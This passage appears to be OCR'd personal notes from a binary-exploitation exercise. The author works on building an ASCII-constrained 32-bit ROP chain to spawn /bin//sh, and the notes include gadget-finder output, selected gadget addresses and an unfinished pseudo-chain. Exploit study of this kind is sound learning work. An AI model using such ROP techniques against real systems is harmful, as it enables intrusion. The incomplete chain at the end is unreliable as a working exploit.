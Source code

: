 now the problem is setting `esi` and `edi` to zero
I can 
1. read from a zeroed memory to `esi / edi`
2. get a zeroed register and use mov or `push & pop`.
3. zero `esi` and `edi` directly
4. change the stack to be zeroed then write in the appropriate place `/bin//sh`



```ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

[+] Gadget found: 0x55687b3c mov dword ptr [edx], edi ; pop esi ; pop edi ; ret
[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

[+] Gadget found: 0x55635738 mov dword ptr [edx], ecx ; pop ebx ; ret
[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

[+] Gadget found: 0x555e5621 mov dword ptr [ecx], edx ; pop ebx ; ret
[-] Can't find the 'pop ecx' gadget. Try with another 'mov [reg], reg'

[+] Gadget found: 0x555d6225 mov dword ptr [eax], edx ; ret
[+] Gadget found: 0x5557506b pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

[+] Gadget found: 0x55584a58 mov dword ptr [eax], edx ; pop ebx ; pop esi ; pop edi ; ret
[+] Gadget found: 0x5557506b pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

[-] Can't find the 'mov dword ptr [r32], r32' gadget
```

## write ascii bytes to an ascii memory location

```text

0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
0x55687b3c : mov dword ptr [edx], edi ; pop esi ; pop edi ; ret
```
## change the stack location

```text
0x55687935 : inc eax ; pop esp ; ret
```

Now the only thing left is to find an zeroed memory and test the theory 
I could use the `got`. we have some zeroed memory there :) because we have no-pie we can use the same address the problem with that is that it is not an ascii address.
Ok changing the stack location is not possible.

I could write to `esp` `esp+4`, and `esp+8`, if I `push eax` I could put it on the stack, but then I would have to push `execv`
```
push &/bin//sh - how the fuck I will write a null???
push 
ret 

push 0
push
ret

push 0
push
ret
```